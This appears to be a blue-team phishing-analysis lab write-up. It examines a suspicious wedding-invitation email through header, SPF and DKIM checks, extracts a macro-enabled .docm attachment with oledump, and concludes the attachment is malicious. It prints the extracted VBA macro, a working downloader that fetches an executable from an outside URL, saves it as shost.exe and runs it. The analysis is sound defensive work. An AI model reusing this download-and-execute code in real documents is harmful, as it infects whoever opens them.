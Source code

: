 ```yaml
---
tags:
date-created:
dg-publish: true
---
```

~ [[blue-team]] 
### Initial Triage
---
The **from** says 'Adam' but the email content says 'Alexia' and lastly there is attached word document with a `.docm` extension, macro enabled.
![[Phishing - Rerun C3.png]]
## Header Analysis
---
Date Sent: Tue, 14 May 2024 23:31:08 +0000

Subject: You're Invited!

Message-ID:
```C
<SA1PR14MB737384979FDD1178FD956584C1E32@SA1PR14MB7373.namprd14.prod.outlook.com>
```

Return-Path: `abarry@live.com`

Received: from SA1PR14MB7373.namprd14.prod.outlook.com

The `Message-ID` and `Received` header matches with outlook.com and the "namprd14.prod.outlook.com" domain matches with a `whois` lookup as outlook.com is owned by Microsoft:

Receiver: `emily.nguyen@glbllogistics.co`

Sender Display Name: Adam Barry

![[Phishing - Rerun C3-1.png]]
### Authentication Checks
---
Performing a `whois` lookup against the found domain on `return-path`:

![[Phishing - Rerun C3-2.png|450]]
It matches with the received headers as Azure and Outlook is both owned by Microsoft and the sender most likely used Azure's email services and the `return-path` matches with the `Received-SPF` record as well as passing the SPF check:

![[Phishing - Rerun C3-3.png]]
We can also confirm this with `dig`:

```C
dig TXT live.com | grep -i "spf"
```

Output shows that it aligns with Microsoft Outlook:

![[Phishing - Rerun C3-4.png]]
**Analyzing DKIM header:**

In order to verify and locate the public key, we need the domain highlighted by `d` and the selector highlighted by `s`:

![[Phishing - Rerun C3-6.png]]
Then using tools such as `nslookup` to perform DKIM lookup:
```C
nslookup -type=txt selector1._domainkey.live.com
```

Once again, it matches or aligns with Outlook.com: (ideally verify with DKIM lookup tool)
![[Phishing - Rerun C3-5.png]]
Then at the `Authentication-Results` shows, both authentication checks passed, no spoofing and content tampering found:

![[Phishing - Rerun C3-7.png]]
## Content Examination
---
There seems to be a sender and content email sender mismatch as highlighted:
![[Phishing - Rerun C3-8.png]]Viewing the source content, does not show any obsfucation techniques, just pure html:

![[Phishing - Rerun C3-9.png]]
### Content Examination
---
The email includes a `.docm` file which is macro enabled typically used by malicious actor to execute code once the document open:

Extracting the `.docm` file using `oledump.py` by first determining it's data stream number:

```C
python3 ../Tools/emldump.py challenge3.eml 
```

Output:
![[Phishing - Rerun C3-10.png]]
Then extracting the file in question with the command:

```C
python3 ../Tools/emldump.py challenge3.eml -s 5 -d > AR_Wedding_RSVP.docm
```

Then extracting it's file hash then upload it to VirusTotal to confirm if it's malicious or not:

```C
sha256sum AR_Wedding_RSVP.docm
```

Output: 

```
41c3dd4e9f794d53c212398891931760de469321e4c5d04be719d5485ed8f53e AR_Wedding_RSVP.docm 
```

VirusTotal flagged it as malicious and tagged it as trojan with a score of 44/66:

![[Phishing - Rerun C3-12.png]]
#### Static Analysis
---
**Extracting the script that is embedded in the document** by identifying first the data stream number:

```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm 
```

Output:

![[Phishing - Rerun C3-13.png]]
Then **revealing the source code:**
```C
python3 ../Tools/oledump.py AR_Wedding_RSVP.docm -s 3 --vbadecompresscorrupt
```

The most interesting part in this script is this:

```PowerShell
Set http_obj = CreateObject("Microsoft.XMLHTTP")
Set stream_obj = CreateObject("ADODB.Stream")
Set shell_obj = CreateObject("WScript.Shell")

URL = "https://github.com/TCWUS/Pastebin-Uploader.exe"
FileName = "shost.exe"
RUNCMD = "shost.exe"

http_obj.Open "GET", URL, False
http_obj.send

stream_obj.Type = 1
stream_obj.Open
stream_obj.write http_obj.responseBody
stream_obj.savetofile FileName, 2

shell_obj.Run RUNCMD

```

Essentially what the script does is it downloads an executable from github (hxxps[://]github[.]com/TCWUS/Pastebin-Uploader[.]exe) and saves it **shost.exe** then gets executed by spawning a command prompt and calling it's filename.

**Verdict**: The `.docm` macro-enabled attachment alone is suspicious enough add in the fact that there is a slightly mispelled names between the `from` and found in the content but after further investigation by:

- Submitting the `.docm` hash in VirusTotal and getting flagged as malicious.
- The script embedded calls out to github and downloads an executable most likely is malicious.

With these evidence: the verdict is malicious.


53 mins.